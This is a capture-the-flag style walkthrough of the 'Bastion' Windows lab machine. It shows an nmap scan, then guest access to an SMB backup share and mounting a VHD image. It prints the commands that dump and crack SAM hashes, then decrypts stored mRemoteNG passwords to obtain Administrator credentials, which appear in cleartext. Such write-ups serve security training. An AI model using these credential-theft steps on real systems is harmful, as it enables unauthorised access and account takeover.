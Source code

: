 # Bastion
## Information Gathering
#### Master List
- General Info
	- OS: Windows Server 2016 Standard 14393 (6.3)
	- Computer Name: Bastion
- /tcp445/smbmap-share-permissions.txt
	- We have Read, Write Permissions to `Backups` share
		- In /note.txt - `Sysadmins: please don't transfer the entire backup file locally, the VPN to the subsidiary office is too slow.`
		- /WindowsImageBackup/L4mpje-PC Possible username: `L4mpje`
	- Read only acess for `IPC$` share
		- IPC$ Does not allow for file listing
- Port 5985 and Port 47001 open, if we get some credentials we may be able to evil-winrm into the machine
- Got credentials `L4mpje:bureaulampje`

#### Ports/Services
x 22/tcp      ssh          
135/tcp     msrpc        
139/tcp     netbios-ssn  
445/tcp     microsoft-ds 
5985/tcp    http         
47001/tcp   http         
49664/tcp   msrpc        
49665/tcp   msrpc        
49666/tcp   msrpc        
49667/tcp   msrpc        
49668/tcp   msrpc        
49669/tcp   msrpc        
49670/tcp   msrpc

#### Software
- Port 22 OpenSSH for_Windows_7.9



## Enumeration
#### Nmap scan
```bash
PORT      STATE SERVICE      REASON          VERSION
22/tcp    open  ssh          syn-ack ttl 127 OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC3bG3TRRwV6dlU1lPbviOW+3fBC7wab+KSQ0Gyhvf9Z1OxFh9v5e6GP4rt5Ss76ic1oAJPIDvQwGlKdeUEnjtEtQXB/78Ptw6IPPPPwF5dI1W4GvoGR4MV5Q6CPpJ6HLIJdvAcn3isTCZgoJT69xRK0ymPnqUqaB+/ptC4xvHmW9ptHdYjDOFLlwxg17e7Sy0CA67PW/nXu7+OKaIOx0lLn8QPEcyrYVCWAqVcUsgNNAjR4h1G7tYLVg3SGrbSmIcxlhSMexIFIVfR37LFlNIYc6Pa58lj2MSQLusIzRoQxaXO4YSp/dM1tk7CN2cKx1PTd9VVSDH+/Nq0HCXPiYh3
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBF1Mau7cS9INLBOXVd4TXFX/02+0gYbMoFzIayeYeEOAcFQrAXa1nxhHjhfpHXWEj2u0Z/hfPBzOLBGi/ngFRUg=
|   256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB34X2ZgGpYNXYb+KLFENmf0P0iQ22Q0sjws2ATjFsiN
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack ttl 127 Windows Server 2016 Standard 14393 microsoft-ds
5985/tcp  open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49670/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC

Host script results:
|_clock-skew: mean: -39m55s, deviation: 1h09m15s, median: 3s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 53299/tcp): CLEAN (Couldnt connect)
|   Check 2 (port 26941/tcp): CLEAN (Couldnt connect)
|   Check 3 (port 22326/udp): CLEAN (Timeout)
|   Check 4 (port 18741/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-08-01T23:39:42+02:00
| smb2-time: 
|   date: 2022-08-01T21:39:43
|_  start_date: 2022-08-01T12:04:12
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
```

## Exploitation

Mounted Backups share locally
```bash
$ sudo mount -t cifs -o username=guest //10.10.10.134/Backups /mnt/bastion
```

Then in /WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351 there are two .vhd files. A VHD file represents a virtual hard disk drive and essentially contains all the external storage for a machine.

Because this is a Windows machine, this means we may have access to the SAM and SYSTEM database hives. These two files contain all the users and hashes for the machine.

I can mount the larger of the two locally at /mnt/vhd.
```bash
$ guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/vhd -v
```

After getting the SAM and SYSTEM hives, I extract the hashes from them:
```bash
$ /usr/share/creddump7/pwdump.py SYSTEM SAM > hash.txt
```
And run John to crack them
```bash
$ john hash.txt --wordlist=/usr/share/wordlist/rockyou.txt --format=NT
	bureaulampje     (L4mpje)
```

This gives me the credentials `L4mpje:bureaulampje`
I tried a few times to login using WinRM but didn't succeed. Luckily, there is SSH on this box
```
$ ssh L4mpje@10.10.10.134 (PW: bureaulampje)
```

This gets you foothold and user

## Privilege Escalation
An important thing to do whenever dropping into any machine is to check installed software. There are two main places this occurs:
- Program Files - Holds 64-bit applications
- Program FIiles (x86) - Holds 32-bit applications

Under Program Files (x86) there is a directory called "mRemoteNG". mRemoteNG is essentially a multi-protocol remote connection software for Windows. 

Whenever you find an interesting software, you should always check out the AppData associated with the software. AppData is stored at `C:\Users\<user>\AppData` and has three subdirectories which are always worth checking out for any software. When it comes specifically to privilege escalation **always check out Roaming**. Roaming contains data which is synced across multiple Windows systems.

Checking out `C:\Users\L4mpje\AppData\Roaming\mRemoteNG\` and looking at the [docs](https://mremoteng.readthedocs.io/en/v1.77.3-dev/troubleshooting.html?highlight=confCons.xml#files-and-locations) for mRemoteNG shows that confCons.xml contains encrypted passwords for sessions. 

I found [this](https://github.com/haseebT/mRemoteNG-Decrypt) decrypter online and used it after downloading the file. I of course used tried the Administrator password.
```bash
$ ./mremoteng_decrypt.py -s "aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=="

Password: thXLHM96BeKL0ER2
```
Which spit out the credentials `Administrator:thXLHM96BeKL0ER2`. SSH'ing using the found credentials gives priv-esc

